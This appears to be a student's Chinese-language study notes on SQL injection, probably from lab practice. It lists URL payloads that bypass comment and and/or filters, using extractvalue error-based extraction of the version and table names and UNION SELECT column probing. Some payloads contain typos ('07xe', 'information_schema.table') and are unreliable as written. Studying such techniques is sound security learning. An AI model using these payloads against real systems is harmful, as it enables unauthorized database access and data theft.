 # 刘灿学习报告04
#SQL注入
##绕过注释符过滤
###注入过程
1、注入语句：?id = ' " %23 a <br>
2、结果报错存在注入，但注释符失效，这时无法像以前继续注入语句<br>
3、构建新的语句：select *from xx where id ='语句'='语句' limit 0,1  未报错继续构造<br>
4、?id=1' or (extractvalue(1,concat(07xe,version()))) or '   得到版本信息<br>
5、继续构造?id=1' or (extractvalue(1,concat(07xe,(select table_name from information_schema.table where table_schema =database() limit 0,1)))) or '<br>
###一些小知识点
table_schema:常用的数据库，即：当前数据库
extractvalue()：查找字符串
##绕过and—or字符过滤
###union代替order by
?id=1' union select 1,2,'此时表示三个字段，以此来试数据库有几个字段<br>
?id=-1' union select 1,2,'实现2 的回显然后开始查询数据库，
构造上一条相似的语句，以上是在无法使用 order by 时的解决方法。<br>
###关键点
相似的构造语句?id=1' order by 1 %23,报错无法语句中不能出现or或者and，这时构造?id=-1' || 1 #  用大小写或者符号代替<br>
?id=-1' || (extractvalue(1,concat(0x7e,version()))) %23,然后构造相似的语句。
